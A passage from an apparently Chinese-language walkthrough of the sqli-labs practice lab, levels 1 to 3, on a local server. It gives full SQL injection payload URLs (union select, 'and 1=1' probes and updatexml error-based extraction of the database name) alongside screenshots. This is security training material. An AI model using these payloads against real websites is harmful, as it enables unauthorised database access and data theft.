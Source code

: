 ```sh
http://127.0.0.1:8080/sqli-labs/Less-1/?id=2' union select 1,database(),3 limit 1,2%23
```

![image-20220921002955239](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921002955239.png)

报错注入：

1. 尝试是否可以报错注入

   ```
   http://127.0.0.1:8080/sqli-labs/Less-1/?id=2'and 1=1%23
   回显正常，可以注入
   ```

   ![image-20220921002633528](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921002633528.png)

2. 开始注入

   ```
   http://127.0.0.1:8080/sqli-labs/Less-1/?id=2' and updatexml(1,concat(0x7e,database(),0x7e),1)%23
   ```

3. 成功

   ![image-20220921002756913](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921002756913.png)

## 第二关

首先使用`2'%23`尝试注入

```
http://127.0.0.1:8080/sqli-labs/Less-2?id=2'%23
```

![image-20220921003451878](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921003451878.png)

去除`'`使用`%20and%201=1%23`尝试注入

```
http://127.0.0.1:8080/sqli-labs/Less-2/?id=1%20and%201=1%23
```

报错注入

```
http://127.0.0.1:8080/sqli-labs/Less-2/?id=1%20and%20updatexml(1,concat(0x7e,database(),0x7e),1)%23
```

![image-20220921004427442](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921004427442.png)

## 第三关

尝试`')and 1=1%23`

```
http://127.0.0.1:8080/sqli-labs/Less-3/?id=1')and 1=1%23
```
